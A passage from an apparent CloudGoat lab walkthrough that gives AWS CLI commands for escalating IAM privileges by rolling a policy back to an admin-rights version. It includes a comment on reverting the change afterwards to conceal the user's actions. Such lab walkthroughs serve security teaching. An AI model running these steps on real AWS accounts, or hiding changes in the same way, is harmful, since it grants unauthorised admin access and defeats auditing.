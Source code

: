 ```bash
    --only-attached --scope Local \
    --query "Policies[?starts_with(PolicyName, 'cg')]" \
    --profile scenario1



# ------------- 4. reviewing the old versions policy
aws iam get-policy-version \
    --policy-arn <generatedARN>/cg-raynor-policy \
    --version-id <versionID> \
    --profile raynor
# one version offers a full set of admin rights.
# the IAM identity with the policy is allowed to
# - perform any IAM "Get" or "List" operations against any resource.
# - one "Set" operation, iam:SetDefaultPolicyVersion, is allowed against any resource.
# iam:SetDefaultPolicyVersion is allowed can lead to serious security issues.



# ------------- 5. review previous IAM policy versions
# check if there are other versions of the customer managed policy cg-raynor-policy.
# there can be upto 5 versions of the policy.
aws iam list-policy-versions \
    --policy-arn <generatedARN>/cg-raynor-policy \
    --profile raynor


aws iam get-policy-version \
    --policy-arn <generatedARN>/cg-raynor-policy \
    --version-id <versionID> \
    --profile raynor


# restore the one which allows full admin privileges,
aws iam set-default-policy-version \
    --policy-arn <generatedARN>/cg-raynor-policy \
    --version-id v5 \
    --profile raynor


# As a final step, may choose to revert Raynor's policy version back to the original one,
# thereby concealing the actions and the true capabilities of the IAM user.

# Destroy the scenario resources
python3 cloudgoat.py destroy iam_privesc_by_rollback
```



---


### Scenarios 2: lambda_privesc (Small / Easy)

